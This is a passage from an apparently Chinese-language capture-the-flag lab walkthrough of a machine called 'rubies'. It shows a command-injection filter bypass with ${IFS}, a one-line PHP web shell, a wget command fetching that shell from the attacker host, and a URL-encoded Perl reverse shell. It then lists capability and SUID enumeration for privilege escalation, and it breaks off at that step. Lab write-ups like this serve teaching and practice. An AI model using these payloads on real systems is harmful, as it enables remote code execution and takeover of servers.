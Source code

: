 这个绕过用${IFS}即可

这里不太好直接弹shell

我们先传一个系统马上去

```Bash
<?php system($\_POST['cmd']);
echo "ok"?>
```


```Bash
http://192.168.56.12/index.php?poem=;wget${IFS}http://192.168.56.6/shell.php
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/19.rubies.014.png)

然后弹shell

```Bash
cmd=perl%20-e%20'use%20Socket%3B%24i%3D%22192.168.56.6%22%3B%24p%3D1122%3Bsocket(S%2CPF\_INET%2CSOCK\_STREAM%2Cgetprotobyname(%22tcp%22))%3Bif(connect(S%2Csockaddr\_in(%24p%2Cinet\_aton(%24i))))%7Bopen(STDIN%2C%22%3E%26S%22)%3Bopen(STDOUT%2C%22%3E%26S%22)%3Bopen(STDERR%2C%22%3E%26S%22)%3Bexec(%22%2Fbin%2Fsh%20-i%22)%3B%7D%3B'
```
## 4. 提权

提权检测

```Bash
(remote) www-data@rubies:/home/minnie$ /sbin/getcap -r / 2>/dev/null
/usr/bin/systemd-detect-virt = cap\_dac\_override,cap\_sys\_ptrace+ep
/usr/bin/traceroute6.iputils = cap\_net\_raw+ep
/usr/bin/mtr = cap\_net\_raw+ep

(remote) www-data@rubies:/var/www/html/uploads$ find / -perm -4000 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/x86\_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgrp
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/at
/bin/ping
/bin/ping6
/bin/mount
/bin/fusermount
/bin/su
/bin/umount
```
看下用户目录下的提示
